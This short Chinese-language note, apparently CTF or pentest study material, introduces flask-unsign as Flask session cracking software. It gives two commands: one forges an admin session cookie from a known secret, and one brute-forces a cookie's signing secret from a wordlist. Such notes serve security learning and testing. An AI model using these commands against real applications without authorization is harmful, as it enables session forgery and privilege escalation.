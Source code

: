 # 介绍
	- flask session破解软件
- # 示例
	- ```shell
	  flask-unsign -s --secret e897071bf3d5dc6ff7882fc0b64ece5c --cookie "{'admin': True, 'uid': 'testtest'}"
	  ```
	- ```shell
	  flask-unsign -u -w test.txt -c eyJhZG1pbiI6ZmFsc2UsInVpZCI6InRlc3R0ZXN0In0.Y8OwiQ.rKYwk2_A8u4XQqEyTJbVL5WcV64
	  ```